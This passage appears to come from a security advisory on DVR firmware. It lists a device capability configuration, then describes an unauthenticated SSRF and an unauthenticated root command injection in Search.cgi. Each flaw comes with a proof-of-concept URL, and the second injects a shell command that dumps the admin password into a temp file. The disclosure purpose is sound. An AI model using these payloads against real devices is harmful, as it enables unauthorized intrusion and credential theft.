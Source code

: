 `Video.Output.Num=1`

`Video.Format=H264,MJPEG`

`Video.Format.Default=H264`

`Video.Resolution=4CIF,CIF`

`Video.Quality=BEST,HIGH,NORMAL,BASIC`

`Video.Local.Input.Num=8`

`Video.Local.Output.Num=1`

`Video.Local.Format=H264,MJPEG`

`Audio.Input.Num=8`

`Audio.Output.Num=1`

`Audio.Format=ULAW`

`Audio.Local.Input.Num=8`

`Audio.Local.Output.Num=1`

`Audio.Local.Format=PCM`

`Language.Default=ENGLISH`

`Language.Support=ENGLISH&CHINESE&JAPANESE&FRANCE&GERMAN&SPANISH&PORTUGUESE&ITALIAN&TURKISH&POLISH&RUSSIAN&CUSTOMIZE&THAI
&VIETNAM&DUTCH&GREEK&ARABIC&CZECH&HUNGARIAN&HEBREW&CHINA&`

`Capability=D0,80,A,80`

`PushNotify.MaxChannel=8`

### 4) Unauthenticated SSRF in DVR devices ###
In case of DVR devices, Search.cgi can be accessed without authentication. This service is responsible for searching and accessing IP cameras in the local network. In newer firmware versions, Search.cgi provides the cgi_query action, which performs an HTTP request with the specified parameters. By modifying the ip, port and queryb64str parameters, an attacker is able to perform arbitrary HTTP requests through the DVR device without authentication.

POC: 

`http://<device_ip>/cgi-bin/nobody/Search.cgi?action=cgi_query&ip=google.com&port=80&queryb64str=Lw==`

### 5) Unauthenticated command injection in DVR devices ###
The cgi_query action in Search.cgi performs HTML requests with the wget system command, which uses the received parameters without sanitization or verification. By exploiting this issue, an attacker can execute any system command with root privileges without authentication.

POC:

`http://<device_ip>/cgi-bin/nobody/Search.cgi?action=cgi_query&ip=google.com&port=80&queryb64str=LW==&username=admin%20;XmlAp%20r%20Account.User1.Password>$(ps|grep%20Search.cgi|grep%20-v%20grep|head%20-n%201|awk%20'{print%20"/tmp/"$1".log"}');&password=admin`
